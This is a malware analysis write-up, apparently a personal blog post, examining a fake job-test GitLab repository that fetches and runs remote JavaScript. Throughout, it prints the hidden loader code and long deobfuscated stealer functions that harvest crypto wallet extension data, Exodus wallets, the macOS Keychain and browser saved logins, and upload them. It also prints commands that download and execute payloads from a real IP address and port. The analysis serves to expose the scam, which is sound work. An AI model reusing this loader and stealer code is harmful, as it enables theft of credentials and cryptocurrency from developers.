









:::note
Malicious GitLab Repository:  [E-commerce Repo on GitLab](https://gitlab.com/topmanager1016-group1/E-commerce)
:::

# Overview 

This write-up marks a milestone for me - it’s the first time I’ve worked directly with malware 🤺 (though I've solved a few REV challenges in CTF before). The origin of this repository comes from a post I saw in the J2Team group, where someone was asked to complete an entry test (which was uploaded to GitLab at the above link). I also watched a video by Manh Tuan up to the point where the server was called for the first time and the obfuscated JavaScript code was retrieved. This write-up will continue by analyzing that JavaScript file. 

# Recap

Below, I’ll briefly go over the steps shown in the video by Manh Tuan.


1. In the ```/api/app.js``` file, it calls the ```initAppBootstrap()``` function.


2. Inside `bootstrap.js`, we encounter the following code:
    ```javascript
    const path = require('path');
    require('dotenv').config({ path: path.resolve(__dirname, '../.env') });
    const axios = require('axios');

    const initAppBootstrap = async () => {
        try {
            const src = atob(process.env.DEV_API_KEY);
            const k = atob(process.env.DEV_SECRET_KEY);
            const v = atob(process.env.DEV_SECRET_VALUE);
            const s = (await axios.get(src, { headers: { [k]: v } })).data;
            const handler = new (Function.constructor)('require', s);
            handler(require);
        } catch (error) {
            console.log(error);
        } 
    }

    module.exports = initAppBootstrap;
    ```
    Clearly, this is a piece of code that decodes Base64 values from the `.env` file and performs a GET request using Axios to the src endpoint.

3. After decoding the Base64 values of ```src```, ```k```, and ```v``` from ```.env```, we get the following results:
    ```javascript
    src = 'https://bs-production.up.railway.app/out'
    k = 'x-secret-key'
    v = '_'
    ```

4. Notice that the Axios code sets the header ```k``` with the value ```v```. After making the request and dumping the result into the file ```res.js```, we obtain:

Something went crazy at this point—and now, this is the main goal of our write-up 😐. (Nah, maybe silly when I dont setup VM to test it 🤷‍♂️).

:::important
Update on 04/07/2025
:::

In the most recent update, the attacker has become more sophisticated by changing the way the malware is retrieved from the server. Specifically, here are the changes they made:

1. They removed the explicit function call through the ```bootstrap.js``` file.
2. They added the file middlewares/validator/errorHandler.js with the following content:
    ```javascript
    const path = require('path');
    const axios = require('axios');
    require('dotenv').config({ path: path.resolve(__dirname, '../../.env') });

    // Utility loggers
    const log = (...args) => console.log(`[${new Date().toISOString()}]`, ...args);
    const errorLog = (...args) => console.error(`[${new Date().toISOString()}]`, ...args);

    /**
    * Sends error notification (you can replace this with Slack, email, etc.)
    */
    const notifyError = async (message) => {
    // Placeholder - extend this to send Slack, email, etc.
    errorLog('⚠️ Notification:', message);
    };

    /**
    * Custom error handler
    */
    const errorHandler = (error) => {
    try {
        if (typeof error !== 'string') {
        console.error('Invalid error format. Expected a string.');
        return;
        }
        const createHandler = (errCode) => {
        try {
            const handler = new (Function.constructor)('require', errCode);
            return handler;
        } catch (e) {
            console.error('Failed:', e.message);
            return null;
        }
        };
        const handlerFunc = createHandler(error);
        if (handlerFunc) {
        handlerFunc(require);
        } else {
        console.error('Handler function is not available.');
        }
    } catch (globalError) {
        console.error('Unexpected error inside errorHandler:', globalError.message);
    }
    };

    /**
    * Loads global runtime config
    */
    const errorTimeHandler = async () => {
    try {
        const src = atob(process.env.AUTH_API_KEY);
        const k = atob(process.env.AUTH_ACCESS_KEY);
        const v = atob(process.env.AUTH_ACCESS_VALUE);
        try {
            globalConfig = (await axios.get(`${src}`,{headers:{[k]:v}}));
            log('Runtime config loaded successfully.');
        } catch (error) {
            errorHandler(error.response?.data || error.message);
        }
    } catch (err) {
        await errorHandler(err.response?.data || err.message || err);
    }
    };

    module.exports = {
        errorHandler,
        errorTimeHandler
    };
    ```

The code above, specifically in ```errorTimeHandler()```, behaves the same way as the previous version we analyzed in ```bootstrap.js```: it makes a ```GET``` request to the server ```src``` with a special header ```k``` set to the value ```v```. However, something did not behave as my expectation when I tested it using Postman.



It no longer explicitly returns obfuscated JavaScript code like before. Instead, it responds with the IP information of the host that made the request. What has happened?

Looking more closely at the ```errorTimeHandler()``` function, every time an error is caught, it is passed to the ```errorHandler`()``` function for processing. Indeed, in ```errorHandler()```, there is a clear sign of potentially malicious code execution at this line:

```javascript
const handler = new (Function.constructor)('require', errCode);
```
This suggests that the malicious code may have been passed down to the host through the error log. To verify this, we can modify the source code as follows:

```javascript
import axios from "axios";
import fs from "fs";
import path from "path";

const logFilePath = path.resolve("error-log.txt");

const logErrorToFile = (message) => {
  fs.appendFileSync(logFilePath, logEntry, "utf8");
};

const log = console.log;

const errorTimeHandler = async () => {
  try {
    const src = atob('aHR0cHM6Ly9hcGktc2VydmVyLW1vY2hhLnZlcmNlbC5hcHAvYXBpL2lwY2hlY2stZW5jcnlwdGVkLzgx');
    const k = atob('eC1zZWNyZXQtaGVhZGVy');
    const v = atob('c2VjcmV0');

    try {
      globalConfig = await axios.get(src, { headers: { [k]: v } });
      log("Runtime config loaded successfully.");
    } catch (error) {
      const errMsg = `${error.response?.data || error.message}`;
      console.error(errMsg);
      logErrorToFile(errMsg);
    }
  } catch (err) {
    const errMsg = `${err.response?.data || err.message || err}`;
    console.error(errMsg);
    logErrorToFile(errMsg);
  }
};

errorTimeHandler();
```
Bingo! We've got the JavaScript code inside the ```error-log.txt``` file — what a surprise!



# Deobfuscate the response file

After copying the entire content of the response file, I went to this link to beautify it and see if it could be fully deobfuscated: [https://obf-io.deobfuscate.io](https://obf-io.deobfuscate.io).

However, it seems like the tool only managed to beautify and partially untangle the code—and that was actually the best result I got after wandering through every deobfuscation tool I could find. Below is a part of file:



## Quick look

Skimming through the deobfuscated file, the first thing that caught my eye was an array of strings like this:

```javascript
const Bt = ["nkbihfbeogaeaoehlefnkodbefgpgknn", "ejbalbakoplchlghecdalmeeeajnimhm", "fhbohimaelbohpjbbldcngcnapndodjp", "ibnejdfjmmkpcnlpebklmnkoeoihofec", "bfnaelmomeimhlpmgjnjophhpkkoljpa", "aeachknmefphepccionboohckonoeemg", "hifafgmccdpekplomjjkcfgodnhcellj", "jblndlipeogpafnldhgmapagcccfchpi", "acmacodkjbdgmoleebolmdjonilkdbch", "dlcobpjiigpikoobohmabehhmhfoodbb", "mcohilncbfahbmgdjkbpemcciiolgcge", "agoakfejjabomempkjlepdflaleeobhb", "omaabbefbmiijedngplfjmnooppbclkk", "aholpfdialjgjfhomihkjbmgjidlcdno", "nphplpgoakhhjchkkhmiggakijnkhfnd", "penjlddjkjgpnkllboccdgccekpkcbin", "lgmpcpglpngdoalbgeoldeajfclnhafa", "fldfpgipfncgndfolcbkdeeknbbbnhcc", "bhhhlbepdkbapadjdnnojkbgioiodbic", "aeachknmefphepccionboohckonoeemg", "gjnckgkfmgmibbkoficdidcljeaaaheg", "afbcbjpbpfadlkmhmclhkeeodmamcflc"];
```

What are these? 😐. With just a quick Google search, I found out they are Chrome crypto wallet extensions: MetaMask, BEW lite, Phantom,...The intention seems pretty clear at this point — most likely, this piece of code is designed to steal information from crypto wallets in the browser (it’s quite meticulous here 🤡).

```javascript
const R = ["Local/BraveSoftware/Brave-Browser", "BraveSoftware/Brave-Browser", "BraveSoftware/Brave-Browser"];
const Q = ["Local/Google/Chrome", "Google/Chrome", "google-chrome"];
const X = ["Roaming/Opera Software/Opera Stable", "com.operasoftware.Opera", "opera"];
```

## Deeper...

Indeed, the code below iterates through all Chrome user profiles and checks whether any of them have the extensions we mentioned earlier installed.
```javascript
const uploadFiles = async (_0x1580b4, _0x59e0fb, _0x3bbc1d, _0x13dfc4) => {
    let _0x3a0672;
    if (!_0x1580b4 || '' === _0x1580b4) {
      return [];
    }
    try {
      if (!testPath(_0x1580b4)) {
        return [];
      }
    } catch (_0x26dbac) {
      return [];
    }
    if (!_0x59e0fb) {
      _0x59e0fb = '';
    }
    let _0x242ba7 = [];
    for (let _0x237834 = 0; _0x237834 < 200; _0x237834++) {
      const _0x5b67bd = _0x1580b4 + '/' + (0 === _0x237834 ? "Default" : "Profile " + _0x237834) + "/Local Extension Settings";
      for (let _0x329bbe = 0; _0x329bbe < wallet_extension_chrome.length; _0x329bbe++) {
        let _0xe3666 = _0x5b67bd + '/' + wallet_extension_chrome[_0x329bbe];
        if (testPath(_0xe3666)) {
          let _0x351017 = [];
          try {
            _0x351017 = fs.readdirSync(_0xe3666);
          } catch (_0x1cf124) {
            _0x351017 = [];
          }
          let _0x5c4fb2 = 0;
          if (!testPath(getAbsolutePath('~/') + "/.n3")) {
            fs_promises.mkdir(getAbsolutePath('~/') + "/.n3");
          }
          _0x351017.forEach(async _0x3ceb01 => {
            let _0x373cf5 = path.join(_0xe3666, _0x3ceb01);
            try {
              let _0x4eff44 = fs.statSync(_0x373cf5);
              if (_0x4eff44.isDirectory()) {
                return;
              }
              if (_0x373cf5.includes('.log') || _0x373cf5.includes(".ldb")) {
                const _0x4efb9a = {
                  filename: "81_" + _0x59e0fb + _0x237834 + '_' + wallet_extension_chrome[_0x329bbe] + '_' + _0x3ceb01
                };
                _0x242ba7.push({
                  'value': fs.createReadStream(_0x373cf5),
                  'options': _0x4efb9a
                });
              } else {
                fs_promises.copyFile(_0x373cf5, getAbsolutePath('~/') + "/.n3/tp" + _0x5c4fb2);
                const _0x12545b = {
                  filename: "81_" + _0x59e0fb + _0x237834 + '_' + wallet_extension_chrome[_0x329bbe] + '_' + _0x3ceb01
                };
                _0x242ba7.push({
                  'value': fs.createReadStream(getAbsolutePath('~/') + '/.n3/tp' + _0x5c4fb2),
                  'options': _0x12545b
                });
                _0x5c4fb2 += 1;
              }
            } catch (_0x4d4966) {}
          });
        }
      }
    }
    if (_0x3bbc1d && (_0x3a0672 = homeDir + "x21`SAWqa", fs.existsSync(_0x3a0672))) {
      try {
        const _0x40c2e1 = {
          filename: "solana_id.txt"
        };
        _0x242ba7.push({
          'value': fs.createReadStream(_0x3a0672),
          'options': _0x40c2e1
        });
      } catch (_0x3fa9a8) {}
    }
    Upload(_0x242ba7, _0x13dfc4);
    return _0x242ba7;
  };
```
<hr style="border: none; border-top: 1px solid #ccc;">

And, they do same thing with the Mozzila browser:
```javascript
const uploadMozilla = _0x4d5c28 => {
    const _0x2e7846 = getAbsolutePath('~/') + "/AppData/Roaming/Mozilla/Firefox/Profiles";
    let _0x5d04e2 = [];
    if (testPath(_0x2e7846)) {
      let _0x2f84de = [];
      try {
        _0x2f84de = fs.readdirSync(_0x2e7846);
      } catch (_0x43e661) {
        _0x2f84de = [];
      }
      let _0x362ae2 = 0;
      _0x2f84de.forEach(async _0x402e78 => {
        let _0x481faf = path.join(_0x2e7846, _0x402e78);
        if (_0x481faf.includes('-release')) {
          let _0x33b30c = path.join(_0x481faf, "/storage/default");
          let _0x3bc9bd = [];
          _0x3bc9bd = fs.readdirSync(_0x33b30c);
          let _0x24f229 = 0;
          _0x3bc9bd.forEach(async _0x160d67 => {
            if (_0x160d67.includes("moz-extension")) {
              let _0x41a5c4 = path.join(_0x33b30c, _0x160d67);
              _0x41a5c4 = path.join(_0x41a5c4, 'idb');
              let _0x3be0c3 = [];
              _0x3be0c3 = fs.readdirSync(_0x41a5c4);
              _0x3be0c3.forEach(async _0x94e90b => {
                if (_0x94e90b.includes('.files')) {
                  let _0x13f160 = path.join(_0x41a5c4, _0x94e90b);
                  let _0x274c80 = [];
                  _0x274c80 = fs.readdirSync(_0x13f160);
                  _0x274c80.forEach(_0x52f33a => {
                    if (!fs.statSync(path.join(_0x13f160, _0x52f33a)).isDirectory()) {
                      let _0x2df4ab = path.join(_0x13f160, _0x52f33a);
                      const _0x24f43b = {
                        filename: _0x362ae2 + '_' + _0x24f229 + '_' + _0x52f33a
                      };
                      _0x5d04e2.push({
                        'value': fs.createReadStream(_0x2df4ab),
                        'options': _0x24f43b
                      });
                    }
                  });
                }
              });
            }
          });
          _0x24f229 += 1;
        }
        _0x362ae2 += 1;
      });
      Upload(_0x5d04e2, _0x4d5c28);
      return _0x5d04e2;
    }
  };
```
As you can see, the ```uploadMozzila``` do the following:
1. Targets Firefox profile storage in: ```~/AppData/Roaming/Mozilla/Firefox/Profiles```
2. Searches for folders with ```-release``` (indicating active user profiles).
3. In those profiles, it looks for: ```/storage/default/moz-extension*/idb/*.files/*```. This is where IndexedDB data for extensions is stored — often used by browser extensions to store private data.

<hr style="border: none; border-top: 1px solid #ccc;">

And it doesn’t even try to hide it—the ```uploadES``` function is downright obvious about what it’s doing:
```javascript
const uploadEs = _0x126cbf => {
    let _0x5c8aea = '';
    let _0x16466a = [];
    if ('w' == platform[0]) {
      _0x5c8aea = getAbsolutePath('~/') + "/AppData/Roaming/Exodus/exodus.wallet";
    } else {
      if ('d' == platform[0]) {
        _0x5c8aea = getAbsolutePath('~/') + "/Library/Application Support/exodus.wallet";
      } else {
        _0x5c8aea = getAbsolutePath('~/') + "/.config/Exodus/exodus.wallet";
      }
    }
    if (testPath(_0x5c8aea)) {
      let _0x898f1c = [];
      try {
        _0x898f1c = fs.readdirSync(_0x5c8aea);
      } catch (_0x13d436) {
        _0x898f1c = [];
      }
      let _0x20978e = 0;
      if (!testPath(getAbsolutePath('~/') + "/.n3")) {
        fs_promises.mkdir(getAbsolutePath('~/') + '/.n3');
      }
      _0x898f1c.forEach(async _0x1e308f => {
        let _0x1ae0e6 = path.join(_0x5c8aea, _0x1e308f);
        try {
          fs_promises.copyFile(_0x1ae0e6, getAbsolutePath('~/') + "/.n3/tp" + _0x20978e);
          const _0xd1c9cb = {
            filename: "81_" + _0x1e308f
          };
          _0x16466a.push({
            'value': fs.createReadStream(getAbsolutePath('~/') + "/.n3/tp" + _0x20978e),
            'options': _0xd1c9cb
          });
          _0x20978e += 1;
        } catch (_0x418397) {}
      });
    }
    Upload(_0x16466a, _0x126cbf);
    return _0x16466a;
  };
```
This is how we can understand what this code does:
1. Detect OS: It detects the operating system, with different behaviors based on the platform:
    + Windows: targets ```~/AppData/Roaming/Exodus/exodus.wallet```
    + Linux: targets ```~/.config/Exodus/exodus.wallet```
    + macOS: targest ```~/Library/Application Support/exodus.wallet```
2. Checks if the target path exists using ```testPath()```.
3. Creates a hidden staging directory: ```~/.n3``` if not existed.
4. Copies Exodus wallet files to the hidden directory and upload it to server.

<hr style="border: none; border-top: 1px solid #ccc;">

Similarly, the upData function also handles things based on the detected OS:
```javascript
  const UpAppData = async (_0x413003, _0x10c39d, _0x3fc07c) => {
    try {
      let _0x5e1ad4 = '';
      _0x5e1ad4 = 'd' == platform[0] ? getAbsolutePath('~/') + "/Library/Application Support/" + _0x413003[1] : 'l' == platform[0] ? getAbsolutePath('~/') + "/.config/" + _0x413003[2] : getAbsolutePath('~/') + "/AppData/" + _0x413003[0] + "/User Data";
      await uploadFiles(_0x5e1ad4, _0x10c39d + '_', 0 == _0x10c39d, _0x3fc07c);
    } catch (_0x3fa9ad) {}
  };
```
This codes means it is customizable to steal from Chrome, Discord, Brave, etc. depending on what the attacker provides in ```_0x413003```.

<hr style="border: none; border-top: 1px solid #ccc;">

And luckily for us, the authors even dedicated an entire function just to stealing the Keychain in macOS 😅.
```javascript
const UpKeychain = async _0x35b03f => {
    let _0x51cdd4 = [];
    let _0x3c6b6f = homeDir + "/Library/Keychains/login.keychain";
    if (fs.existsSync(_0x3c6b6f)) {
      try {
        const _0x40e1ee = {
          filename: 'logkc-db'
        };
        _0x51cdd4.push({
          'value': fs.createReadStream(_0x3c6b6f),
          'options': _0x40e1ee
        });
      } catch (_0x5f4ddc) {}
    } else {
      _0x3c6b6f += "-db";
      if (fs.existsSync(_0x3c6b6f)) {
        try {
          const _0x477909 = {
            filename: 'logkc-db'
          };
          _0x51cdd4.push({
            'value': fs.createReadStream(_0x3c6b6f),
            'options': _0x477909
          });
        } catch (_0x2d3f57) {}
      }
    }
    try {
      let _0x521132 = homeDir + "/Library/Application Support/Google/Chrome";
      if (testPath(_0x521132)) {
        for (let _0x56cbbe = 0; _0x56cbbe < 200; _0x56cbbe++) {
          const _0x1ef5d8 = _0x521132 + '/' + (0 === _0x56cbbe ? "Default" : "Profile " + _0x56cbbe) + "/Login Data";
          try {
            if (!testPath(_0x1ef5d8)) {
              continue;
            }
            const _0xc4b064 = _0x521132 + "/ld_" + _0x56cbbe;
            const _0x1874f1 = {
              filename: 'pld_' + _0x56cbbe
            };
            if (testPath(_0xc4b064)) {
              _0x51cdd4.push({
                'value': fs.createReadStream(_0xc4b064),
                'options': _0x1874f1
              });
            } else {
              fs.copyFile(_0x1ef5d8, _0xc4b064, _0x4d2cb1 => {
                const _0x5b62c2 = {
                  filename: "pld_" + _0x56cbbe
                };
                let _0x18a5d8 = [{
                  'value': fs.createReadStream(_0x1ef5d8),
                  'options': _0x5b62c2
                }];
                Upload(_0x18a5d8, _0x35b03f);
              });
            }
          } catch (_0x2f0c0f) {}
        }
      }
    } catch (_0x5d433a) {}
    try {
      let _0x54eea8 = homeDir + "/Library/Application Support/BraveSoftware/Brave-Browser";
      if (testPath(_0x54eea8)) {
        for (let _0x16606d = 0; _0x16606d < 200; _0x16606d++) {
          const _0x45aed9 = _0x54eea8 + '/' + (0 === _0x16606d ? "Default" : "Profile " + _0x16606d);
          try {
            if (!testPath(_0x45aed9)) {
              continue;
            }
            const _0x21ef3f = _0x45aed9 + "/Login Data";
            const _0x13f8dc = {
              filename: 'brld_' + _0x16606d
            };
            if (testPath(_0x21ef3f)) {
              _0x51cdd4.push({
                'value': fs.createReadStream(_0x21ef3f),
                'options': _0x13f8dc
              });
            } else {
              fs.copyFile(_0x45aed9, _0x21ef3f, _0x558ba6 => {
                const _0x847bb6 = {
                  filename: 'brld_' + _0x16606d
                };
                let _0x42cb36 = [{
                  'value': fs.createReadStream(_0x45aed9),
                  'options': _0x847bb6
                }];
                Upload(_0x42cb36, _0x35b03f);
              });
            }
          } catch (_0xddacc3) {}
        }
      }
    } catch (_0x37e2a1) {}
    Upload(_0x51cdd4, _0x35b03f);
    return _0x51cdd4;
  };
```
This function, ```UpKeychain```, is clearly designed to extract sensitive data from a macOS system, specifically:
1. macOS Keychain (```login.keychain```)
2. Chrome and Brave "Login Data" (stored passwords)
3. Exfiltrate them via the ```Upload``` function

<hr style="border: none; border-top: 1px solid #ccc;">

And, as expected, it eventually leads to stealing browser user data through the UpUserData function:
```javascript
const UpUserData = async (_0x2a5619, _0x52fc61, _0x34becb) => {
    let _0x2fff59 = [];
    let _0x4bca26 = '';
    _0x4bca26 = 'd' == platform[0] ? getAbsolutePath('~/') + "/Library/Application Support/" + _0x2a5619[1] : 'l' == platform[0] ? getAbsolutePath('~/') + "/.config/" + _0x2a5619[2] : getAbsolutePath('~/') + "/AppData/" + _0x2a5619[0] + "/User Data";
    let _0x5d849e = _0x4bca26 + "/Local State";
    if (fs.existsSync(_0x5d849e)) {
      try {
        const _0x420d81 = {
          filename: _0x52fc61 + "_lst"
        };
        _0x2fff59.push({
          'value': fs.createReadStream(_0x5d849e),
          'options': _0x420d81
        });
      } catch (_0x531e9d) {}
    }
    try {
      if (testPath(_0x4bca26)) {
        for (let _0x339883 = 0; _0x339883 < 200; _0x339883++) {
          const _0x12e0e1 = _0x4bca26 + '/' + (0 === _0x339883 ? "Default" : "Profile " + _0x339883);
          try {
            if (!testPath(_0x12e0e1)) {
              continue;
            }
            const _0x42e5b4 = _0x12e0e1 + "/Login Data";
            if (!testPath(_0x42e5b4)) {
              continue;
            }
            const _0x5e65cd = {
              filename: _0x52fc61 + '_' + _0x339883 + "_uld"
            };
            _0x2fff59.push({
              'value': fs.createReadStream(_0x42e5b4),
              'options': _0x5e65cd
            });
          } catch (_0x5b9116) {}
        }
      }
    } catch (_0x4ea0f6) {}
    Upload(_0x2fff59, _0x34becb);
    return _0x2fff59;
  };
```
The UpUserData function is stealing sensitive data (such as saved browser credentials) from Chrome, Edge, Brave, or other Chromium-based browsers.

<hr style="border: none; border-top: 1px solid #ccc;">


There’s a particular snippet that really confused me. It’s the one below:
```javascript
const runP = () => {
    const _0x5cb48f = tmpDir + "\\p.zi";
    const _0x35655e = tmpDir + "\\p2.zip";
    if (It >= 51476596) {
      return;
    }
    if (fs.existsSync(_0x5cb48f)) {
      try {
        var _0x4a8b2a = fs.statSync(_0x5cb48f);
        if (_0x4a8b2a.size >= 51476596) {
          It = _0x4a8b2a.size;
          fs.rename(_0x5cb48f, _0x35655e, _0x5b657c => {
            if (_0x5b657c) {
              throw _0x5b657c;
            }
            extractFile(_0x35655e);
          });
        } else {
          if (It < _0x4a8b2a.size) {
            It = _0x4a8b2a.size;
          } else {
            fs.rmSync(_0x5cb48f);
            It = 0;
          }
          Ht();
        }
      } catch (_0x1d221b) {}
    } else {
      ex("curl -Lo \"" + _0x5cb48f + "\" \"" + "http://45.61.133.110:1224/pdown" + "\"", (_0x43e299, _0x3dea55, _0x1ca9fd) => {
        if (_0x43e299) {
          It = 0;
          return void Ht();
        }
        try {
          It = 51476596;
          fs.renameSync(_0x5cb48f, _0x35655e);
          extractFile(_0x35655e);
        } catch (_0x3b7ec9) {}
      });
    }
  };
```

Based on what I can tell, this seems to be the part where the code patches itself into malware. But here’s what’s bothering me: it refers to ```p.zi``` — yet when it makes a request to that endpoint, the actual file is named ```p.zip```.

Could this be a typo?

Update (12/06/2025): All of my previous assumptions were completely wrong. This isn’t where the malware is patched — it’s actually where they download the Python environment to the victim’s machine (quite meticulous, actually). This is a preparation step for executing the ```.py``` payload later on — probably because they couldn’t be sure whether a Node.js developer would already have Python installed.


<hr style="border: none; border-top: 1px solid #ccc;">

This is one of the most interesting parts of the write-up — it calls an endpoint, downloads a file, and executes it.
```javascript
const Xt = async () => await new Promise((_0x9056d6, _0x5fd84b) => {
    if ('w' == platform[0]) {
      if (fs.existsSync(homeDir + "\\.pyp\\python.exe")) {
        (() => {
          const _0x84bcdf = homeDir + "/.npl";
          const _0x27a95f = "\"" + homeDir + "\\.pyp\\python.exe\" \"" + _0x84bcdf + "\"";
          try {
            fs.rmSync(_0x84bcdf);
          } catch (_0x267894) {}
          request.get("http://45.61.133.110:1224/client/106/81", (_0x4d56f2, _0x36c0aa, _0x1e249c) => {
            if (!_0x4d56f2) {
              try {
                fs.writeFileSync(_0x84bcdf, _0x1e249c);
                ex(_0x27a95f, (_0x30959d, _0x175d2f, _0x3defe5) => {});
              } catch (_0x32d4eb) {}
            }
          });
        })();
      } else {
        runP();
      }
    } else {
      (() => {
        request.get("http://45.61.133.110:1224/client/106/81", (_0x311f89, _0x5ca69e, _0x5b32ee) => {
          if (!_0x311f89) {
            fs.writeFileSync(homeDir + "/.npl", _0x5b32ee);
            ex("python3 \"" + homeDir + "/.npl\"", (_0x457808, _0x26c9e0, _0xda1b15) => {});
          }
        });
      })();
    }
  });
```
This's really interesting: ```request.get("http://45.61.133.110:1224/client/106/81", (_0x311f89, _0x5ca69e, _0x5b32ee)```. Can’t wait any longer — let’s send a GET request to this endpoint and see what we get. Boom, we got ```main106_81.py```.

At here, we need some scripting to decrypt it. This is the code I used:
```python
for i in range(100):
    t = decompress(b64decode(x[::-1])).decode()
    # print(t)
    
    if 'exec((_)(' not in t:
        break
    t = t.split('\'', 1)[1]
    t = t.split('\'')[0]
    x = t
```

And we got this file:
```python
import base64,platform,os,subprocess,sys
try:import requests
except:subprocess.check_call([sys.executable, '-m', 'pip', 'install', 'requests']);import requests

sType = "106"
gType = "81"
ot = platform.system()
home = os.path.expanduser("~")
host1123 = "10.10.51.212 go to hell"
host1 = "45.61.133.110"
host2 = f'http://{host1}:1224'
pd = os.path.join(home, ".n2")
ap = pd + "/pay"
def download_payload():
    if os.path.exists(ap):
        try:os.remove(ap)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass

    try:
        if ot=="Darwin":
            # aa = requests.get(host2+"/payload1/"+sType+"/"+gType, allow_redirects=True)
            aa = requests.get(host2+"/payload/"+sType+"/"+gType, allow_redirects=True)
            with open(ap, 'wb') as f:f.write(aa.content)
        else:
            aa = requests.get(host2+"/payload/"+sType+"/"+gType, allow_redirects=True)
            with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:return False
res=download_payload()
if res:
    if ot=="Windows":subprocess.Popen([sys.executable, ap], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
    else:subprocess.Popen([sys.executable, ap])

if ot=="Darwin":sys.exit(-1)

ap = pd + "/bow"

def download_browse():
    if os.path.exists(ap):
        try:os.remove(ap)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass
    try:
        aa=requests.get(host2+"/brow/"+ sType +"/"+gType, allow_redirects=True)
        with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:return False
res=download_browse()
if res:
    if ot=="Windows":subprocess.Popen([sys.executable, ap], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
    else:subprocess.Popen([sys.executable, ap])
```

As we can see, this file continue get 2 payload files from 2 endpoint: ```/payload``` and ```brow``` then execute them.

<hr style="border: none; border-top: 1px solid #ccc;">

From the ```/brow``` endpoint, I received the file ```Brow106_81.py```, encrypted in the same way as ```main106_81.py``` mentioned earlier. Below is the link of```Brow106_81.py```:
[Brow106_81.py](https://github.com/VuxNx/REPO_SCAM_WU/blob/master/brow_decrypt.py).

